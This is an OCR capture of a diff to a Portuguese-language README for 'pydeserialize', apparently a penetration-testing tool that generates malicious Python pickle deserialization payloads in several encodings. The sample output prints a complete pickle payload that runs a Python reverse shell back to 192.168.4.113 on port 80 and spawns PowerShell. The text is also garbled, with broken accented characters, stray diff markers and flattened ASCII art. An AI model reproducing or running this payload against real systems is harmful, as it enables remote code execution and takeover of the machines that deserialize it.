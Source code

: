 ```
 desejadas e dessa forma sendo simples e otimizada para velocidade.
 pydeserialize Ã© construÃ­do para fazer apenas uma coisa - gera payloads de
 desserializaÃ§Ã£o insegura + encodes e faz isso muito bem. Projetei o
 `pydeserialize` para cumprir todas as responsabilidades para gera payloads e
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads para explora
 vulnerabilidades de desserializaÃ§Ã£o insegura em python # Forma de
 utilizaÃ§Ã£o ```sh pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
-pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
-para a ferramenta. Aqui estÃ£o todos os switches que ele suporta: ```yaml _ _ _
-_ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_| _| |
-.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.9
-- @joaoviictorti options: -h, --help show this help message and exit -ip IP
-Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -o
-{Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` # Detalhes ```yaml _
+_ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_|
+_| | .'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___|
+v0.1.0 - @joaoviictorti options: -h, --help show this help message and exit -ip
+IP Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -
+o {Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install pydeserialize
 ``` # Executando pydeserialize ```console pydeserialize -ip 192.168.4.113 -p 80
 -o Windows -e shell _ _ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . |
 | | . | -_|_ -| -_| _| | .'| | |- _| -_| | _|_ |___|___|___|___|_|
-|_|__,|_|_|___|___| |_| |___| v0.0.9 - @joaoviictorti
+|_|__,|_|_|___|___| |_| |___| v0.1.0 - @joaoviictorti
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python
 -c \'import socket,subprocess,os;s=socket.socket
 (socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2
 (s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;
 pty.spawn("powershell")\'\x94\x85\x94R\x94.' ``` [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer]
```

